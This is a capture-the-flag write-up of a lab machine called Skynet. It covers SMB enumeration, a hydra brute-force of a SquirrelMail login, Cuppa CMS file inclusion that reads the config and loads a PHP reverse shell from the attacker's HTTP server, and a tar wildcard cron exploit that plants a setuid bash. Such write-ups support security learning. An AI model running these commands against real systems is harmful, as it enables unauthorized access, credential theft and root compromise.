# Skynet
--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.170.220

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sV: probe open ports to determine service/version info<br>
-sC: scrit scan<br>
-oN OUTPUT_FILE: output results to given filename<br>
-p-: scan all ports
```
nmap -sC -sV -p- -oN nmap.txt 10.10.170.220
```



**EXPOSED PORT (SERVICE)**:<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18),<br>
    110 (pop3 Dovecot pop3d), <br>
    139 (netbios-ssn Samba smbd 3.X-4.X),<br>
    143 (imap Dovecot imapd),<br>
    445 (netbios-ssn Samba smbd 4.3.11)

Enumerate hidden directories on website on port 80
```
gobuster dir -u 10.10.170.220 -w /usr/share/wordlists/dirb/common.txt
```



Directories of Interest: /admin, /squirrelmail, /config

/squirrelmail is a email login page

### 2. ENUMERATE SAMBA SERVER

```
smbclient -L //10.10.170.220 -N
```



```
smbclient //10.10.170.220/anonymous -N
```
Found attention.txt and log files in anonymous share

Log files look like passwords



**USERNAME**: milesdyson

### 3. BRUTE FORCE EMAIL LOGIN

POST reqeust for email page



Incorrect login information message



```
hydra -l milesdyson -P log1.txt 10.10.170.220 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." -V
```



**PASSWORD**: cyborg007haloterminator

Log into email account 



**SAMBA PASSWORD**: )s{A&2Z=F^n_E.B\`

Found binary in email: 
01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110 01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111

Use CyberChef (https://gchq.github.io/CyberChef) to decode this 



Message: balls have zero to me to me to me to me to me to me to me to me to

Message in other email:
i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to

### 4. ENUMERATE PERSONAL SAMBA SHARE

Log into the samba server as milesdyson
```
smbclient //10.10.170.220/milesdyson -U milesdyson
```



Found important.txt which reveals hidden web directory /45kra24zxs28v3yd

### 5. ENUMERATE HIDDEN DIRECTORY

important.txt mentioned a cms so we need to find it
```
gobuster dir -u http://10.10.170.220/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/common.txt
```



Hidden Directory: /administrator

Cuppa CMS found

### 6. EXPLOIT CMS

Find vulnerabilities
```
searchsploit cuppa
```



Looks like its affected by remote file inclusion (RFI)

```
searchsploit -x 25971
```



```
curl http://10.10.170.220/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php

echo "PD9waHAgCgljbGFzcyBDb25maWd1cmF0aW9uewoJCXB1YmxpYyAkaG9zdCA9ICJsb2NhbGhvc3QiOwoJCXB1YmxpYyAkZGIgPSAiY3VwcGEiOwoJCXB1YmxpYyAkdXNlciA9ICJyb290IjsKCQlwdWJsaWMgJHBhc3N3b3JkID0gInBhc3N
3b3JkMTIzIjsKCQlwdWJsaWMgJHRhYmxlX3ByZWZpeCA9ICJjdV8iOwoJCXB1YmxpYyAkYWRtaW5pc3RyYXRvcl90ZW1wbGF0ZSA9ICJkZWZhdWx0IjsKCQlwdWJsaWMgJGxpc3RfbGltaXQgPSAyNTsKCQlwdWJsaWMgJHRva2VuID0gIk9CcUlQcWxG
V2YzWCI7CgkJcHVibGljICRhbGxvd2VkX2V4dGVuc2lvbnMgPSAiKi5ibXA7ICouY3N2OyAqLmRvYzsgKi5naWY7ICouaWNvOyAqLmpwZzsgKi5qcGVnOyAqLm9kZzsgKi5vZHA7ICoub2RzOyAqLm9kdDsgKi5wZGY7ICoucG5nOyAqLnBwdDsgKi5zd
2Y7ICoudHh0OyAqLnhjZjsgKi54bHM7ICouZG9jeDsgKi54bHN4IjsKCQlwdWJsaWMgJHVwbG9hZF9kZWZhdWx0X3BhdGggPSAibWVkaWEvdXBsb2Fkc0ZpbGVzIjsKCQlwdWJsaWMgJG1heGltdW1fZmlsZV9zaXplID0gIjUyNDI4ODAiOwoJCXB1Ym
xpYyAkc2VjdXJlX2xvZ2luID0gMDsKCQlwdWJsaWMgJHNlY3VyZV9sb2dpbl92YWx1ZSA9ICIiOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luX3JlZGlyZWN0ID0gIiI7Cgl9IAo/Pg==" | base64 -d
```



**USER**: root<br>
**PASSWORD**: password123

Now we know the RFI works so lets get a php reverse shell



Start listener
```
nc -lnvp 5555
```

Start python server so remote host can access php shell
```
python -m http.server
```

```
curl http://10.10.170.220/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.6.1.136:8000/exploit.php
```



**USER FLAG**: 7ce5c2109a40f958099283600a9ae807 

Stabalize the shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg # after hitting ctrl+z
```

### 7. PRIVILEGE ESCALATION

Check privileges
```
sudo -l
```

No privileges

Check crontab
```
cat /etc/crontab
```



/home/milesdyson/backups/backup.sh is ran every minute as root



We can exploit tar (https://gtfobins.github.io/gtfobins/tar/)

Make a copy of /bin/bash as root and give it sticky privileges
```
printf '#!/bin/bash\ncp /bin/bash /tmp/root.sh && chmod +s /tmp/root.sh' > /var/www/html/exploit
chmod +x /var/www/html/exploit
touch /var/www/html/--checkpoint=1 # Enable tar progress update
touch /var/www/html/--checkpoint-action=exec=sh exploit # Execute exploit when at checkpoint
```

-p: execute file as owner
```
ls -l /tmp/root.sh
/tmp/root.sh -p
```



**ROOT FLAG**: 3f0372db24753accc7179a282cd6a949 
